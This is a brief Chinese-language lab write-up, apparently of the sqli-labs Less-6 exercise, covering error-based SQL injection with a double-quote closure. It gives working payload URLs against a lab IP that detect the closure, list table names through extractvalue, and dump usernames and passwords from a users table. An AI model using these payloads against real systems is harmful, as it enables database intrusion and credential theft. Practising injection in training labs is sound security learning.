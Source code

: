 ![image-20241007022508828](./assets/image-20241007022508828.png)

****

### Less-6(报错注入->`"`闭合)

```sql
#判断闭合方式
http://8.137.60.154:8082/Less-6/?id=1"
```

![image-20241007022659165](./assets/image-20241007022659165.png)

```sql
#获取表名
http://8.137.60.154:8082/Less-6/?id=1"and extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a))--+
```

![image-20241007022925735](./assets/image-20241007022925735.png)

- 除了`闭合方式`不同其它的payload与`第五关一致`

```sql
#获取数据
http://8.137.60.154:8082/Less-6/?id=1"and extractvalue(1,concat(0x3a,(select group_concat(id,username,password) from security.users),0x3a))--+
```
